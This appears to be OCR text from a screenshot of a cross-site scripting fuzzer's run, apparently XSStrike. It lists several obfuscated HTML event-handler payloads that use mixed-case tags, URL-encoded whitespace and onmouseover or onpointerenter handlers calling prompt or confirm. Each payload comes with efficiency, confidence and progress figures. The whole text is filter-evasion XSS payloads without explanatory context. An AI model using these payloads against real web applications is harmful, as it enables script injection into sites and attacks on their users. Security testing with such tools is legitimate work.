 ------------------------------------------------------------
 Payload: <A%0dOnMOuseoVER%0a=%0a(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 175/1536
 
------------------------------------------------------------
 Payload: <a%0doNMouSEoveR%09=%09a=prompt,a()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 176/1536
 
------------------------------------------------------------
 Payload: <A%0aOnPoINtereNter%0d=%0d(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 177/1536
 
------------------------------------------------------------
 Payload: <D3V%0aoNPOINteReNTer%0d=%0dconfirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 178/1536
 
 Progress: 179/1536
 
 Progress: 180/1536
 
 Progress: 181/1536
 
------------------------------------------------------------
 Payload: <D3v%0aONpoIntERenteR%0d=%0da=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 182/1536
 
------------------------------------------------------------
 Payload: <D3v%0aOnmouseoVEr%0a=%0a[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 183/1536
 
------------------------------------------------------------
 Payload: <d3V%09onPoinTeRENTer%0a=%0a[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 184/1536
 
------------------------------------------------------------
 Payload: <DEtails%09onpOInTereNTer%0a=%0aconfirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 185/1536
 